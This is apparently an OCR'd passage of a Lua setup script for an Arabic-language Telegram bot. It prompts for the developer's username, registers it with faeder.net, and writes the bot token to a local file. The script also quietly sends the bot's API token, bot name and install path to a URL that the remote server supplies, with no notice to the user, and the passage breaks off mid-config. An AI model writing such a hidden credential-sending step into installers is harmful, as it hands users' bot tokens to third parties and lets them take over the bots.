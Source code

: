 io.write("\27[34;47m◼¦ الآن ادخل معرف المطور هنا ↓ \27[0;1;36m\n") 
local username = io.read():gsub(' ','')
if username == '' then
io.write("\27[31;47m◼¦ عذراً، لم تقم بادخال معرف المطور\27[0;m \n") 
AutoSet(token)
end
if not username:match('@[%a%d_]') then
io.write("\27[31;47m◼¦ عذراً، هذا ليس معرف حساب تيليجرام\27[0;m \n") 
AutoSet(token)
end
local Foldir = io.popen("echo $(cd $(dirname $0); pwd)"):read('*all'):gsub(' ',''):gsub("\n",'')
getuser = {}
getuser.username = username
getuser.Source  = Foldir
local url , res = https.request('https://faeder.net/Faeder/index.php?Array='..JSON.encode(getuser))
if res ~= 200 then
io.write("\27[31;47m◼¦ حدث خطأ في الاتصال بالسيرفر ، يرجى مراسلة مطور السورس { @ymenii } ليتمكن من حل المشكلة في اسرع وقت ممكن! \27[0;m\n")
os.exit()
end
Getresult, Getuser = pcall(JSON.decode, url)
if not Getresult then
io.write("\27[31;47m◼¦ حدث خطأ في سكرب الاستخراج ، يرجى مراسلة مطور السورس { @ymenii } ليتمكن من حل المشكلة في اسرع وقت ممكن! \27[0;m\n")
os.exit()
end
if not Getuser.ok then
if Getuser.result then
io.write("\27[31;47m◼¦ "..Getuser.result.." \27[0;m\n")
os.exit()
end
io.write("\27[31;47m◼¦ عذراً، لايوجد حساب بهذا المعرف يرجى التاكد منه جيداً!\27[0;m \n") 
AutoSet(token)
end
if Getuser.results.type ~= "user" then
io.write("\27[31;47m◼¦ عذراً، يرجى ادخال معرف شخص ليكون مطور البوت وليس معرف قناة او مجموعة او بوت!\27[0;m \n") 
AutoSet(token)
end
io.write("\27[34;47m◼¦ تم ادخال معرف المطور بنجاح سيتم تشغيل السورس على البوت الآن \27[0;m\n")
local WebSite = Getuser.results.WebSite
infos = {} 
infos.username = '@'..Getuser.results.username
infos.userbot  = '@'..botusername
infos.token  = token
infos.userjoin  = io.popen("echo $(cd $(dirname $0); pwd)"):read('*all'):gsub(' ',''):gsub("\n",'')
https.request(WebSite..'/request.php?insert='..JSON.encode(infos))
local SUDO = Getuser.results.id

local create = function(data, file, uglify)  
file = io.open(file, "w+")   
local serialized   
if not uglify then  
serialized = serpent.block(data, {comment = false, name = "_"})  
else  
serialized = serpent.dump(data)  
end    
file:write(serialized)    file:close()  
end
local create_config_auto = function()
new_file = io.open("./FA.txt", "w")  
new_file:write(token)  
new_file:close()
config = {